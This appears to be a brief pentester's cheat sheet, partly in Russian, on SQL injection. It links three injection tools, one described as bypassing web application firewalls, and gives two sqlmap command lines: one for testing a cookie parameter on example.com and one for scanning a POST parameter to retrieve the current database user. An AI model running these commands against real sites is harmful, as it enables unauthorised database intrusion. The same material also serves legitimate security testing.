 # sqli exploit

sqlbuster (Python) - sqli union based with bypass WAF. git (2 year ago): [https://github.com/geek-repo/sqlbuster](https://github.com/geek-repo/sqlbuster)\
jSQL injection (Java): [https://github.com/ron190/jsql-injection](https://github.com/ron190/jsql-injection)\
SQLmap (Python): [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

## SQLmap

### sqli в куках

```
python sqlmap.py -u "https://example.com/" --cookie="TrackingId=RRpMFZR0rWUX4c15" -p "TrackingId" --method=GET --level 3
```

### Пример запуска на скан POST параметра в запросе

```
sqlmap  -p log -r request-cz.txt --current-user  --level=2 --risk=2
```
